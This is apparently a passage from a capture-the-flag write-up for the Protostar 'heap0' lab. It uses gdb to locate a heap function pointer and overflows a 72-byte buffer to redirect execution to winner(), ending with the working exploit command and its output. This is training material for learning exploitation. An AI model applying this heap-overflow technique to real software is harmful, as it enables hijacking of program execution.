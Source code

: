 ```
(gdb) x/50x 0x804a000
0x804a000:      0x00000000      0x00000049      0x41414141      0x00000000
0x804a010:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a020:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a030:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a040:      0x00000000      0x00000000      0x00000000      0x00000011
0x804a050:      0x08048478      0x00000000      0x00000000      0x00020fa9
0x804a060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a070:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a080:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a090:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0a0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0b0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0c0:      0x00000000      0x00000000
```

We also see that the address of the `nowinner()` function is stored on the
heap due to `f->fp = nowinner`.

```
(gdb) print &nowinner
$1 = (void (*)(void)) 0x8048478 <nowinner>
```

We can overwrite that address with the address of `winner()` which will then
be executed by `f->fp()`. Looking at the heap layout, we can see that we need
to write 72 bytes followed by `winner()`'s memory address.

```
(gdb) run `python -c "print 'A'*72 + 'BBBB'"`
Starting program: /opt/protostar/bin/heap0 `python -c "print 'A'*72 + 'BBBB'"`
data is at 0x804a008, fp is at 0x804a050

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

We find the memory address of `winner()`.

```
(gdb) print &winner
$1 = (void (*)(void)) 0x8048464 <winner>
```

Putting everything together,

```shell
user@protostar:~$ /opt/protostar/bin/heap0 $(python -c "print 'A'*72 + '\x64\x84\x04\x08'")
data is at 0x804a008, fp is at 0x804a050
level passed
```

# heap 1

We are given the below source code.
